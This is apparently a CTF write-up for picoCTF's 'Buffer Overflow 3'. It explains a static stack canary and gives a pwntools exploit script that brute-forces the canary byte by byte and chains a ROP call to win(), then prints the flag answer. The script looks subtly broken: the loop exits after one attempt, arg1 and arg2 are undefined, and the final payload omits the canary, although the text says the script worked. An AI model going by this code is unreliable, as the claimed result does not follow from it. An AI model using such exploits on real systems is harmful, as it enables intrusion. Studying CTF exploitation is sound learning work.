 # Buffer Overflow 3
 
## Challenge Description: Do you think you can bypass the protection and get the flag?

For this challenge, the vulnerable program has a stack canary that needs to be replaced during the buffer overflow. From the [source code](./vuln.c), we can see that a global canary is declared and subsequently copied into a local variable *canary* in the **vuln** function:

```C
#define CANARY_SIZE 4
char global_canary[CANARY_SIZE];
// Inside Vuln function 
char canary[CANARY_SIZE];
memcpy(canary,global_canary,CANARY_SIZE);
if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
```
If the local canary value does not equals to the global value, the program immediately crashes. Since the canary is only 4 bytes long, we should be able to perform a brute force attack on it character by character. We will check for the beginning of the output (**\*\*\*\*\**) for a failed *memcmp* check to determine if our character is right or wrong.

In order to perform the attack, we will need to know the location of the following information:

1. Address of the global canary variable (Using **info variables**)
![global _canary_add](https://user-images.githubusercontent.com/71312079/160633120-d176175c-88b9-48d5-b5ce-efb300413c20.png)
   
2. Buffer location (From disassembling **vuln()**)
![buffer_loc](https://user-images.githubusercontent.com/71312079/160633098-7416390c-e970-4a9c-ae74-030918319fb1.png)

2. Canary offset (From disassembling **vuln()**)
![canary_offest](https://user-images.githubusercontent.com/71312079/160633107-b8f69d8c-bafc-4aa8-9790-c43633539162.png)

Looking back at our source code again, we see that we desire to jump to the **win()** function that will print the flag.

```C
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}
```
I then crafted the following payload: 

```python
from pwn import *

exe = './vuln' #name of 32bit program
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
#p = remote('IP/hostname', port)
offset = 0x50 - 0x10 # difference from buffer & canary offsets  
num_found = 0
canary = b''

while True:
    for i in range(256): # brute forcing canary

        p = process(exe)
        p.sendlineafter(b">", str(offset + num_found).encode('utf-8'))
        
        p.sendlineafter(b">", b"A"* offset + canary + bytes([i]))
        if b"*****" in p.recvline():
            i += 1
            continue 
        canary += bytes([i])
        num_found += 1
        if num_found == 4:
            break
            break
        break

print(canary)

rop = ROP(elf)
rop.win(arg1,arg2) 
payload = flat({
    offset: rop.chain()
})

p.sendline(payload)
p.interactive()
```

Running the code aboved produced the canary value ```BiRd``` (Coincidentally also the name of a similar challenge in Pico 2019) as well as the flag:

![flag](https://user-images.githubusercontent.com/71312079/160633115-ba58ad21-3420-4268-ba4a-e829ba02493b.png)

FLAG: `picoCTF{Stat1C_c4n4r13s_4R3_b4D_9602b3a1}`

NOTE: I originally did NOT do the ROP method and manually crafted the payload, which didn't work as I did not include "junk" as padding for the return pointer. This was hence a good lesson on the importance of knowing technical details beyond easy-to-use tools like ROP.

```python
flag_addr = p32(elf.symbols['win'])  
payload = flat({
    offset: [
    flag_addr,
    "junk", # junk needed as the function will first push return pointer onto stack -> padding for return pointer 
    p32(arg1),
    p32(arg2)
    ]
})
```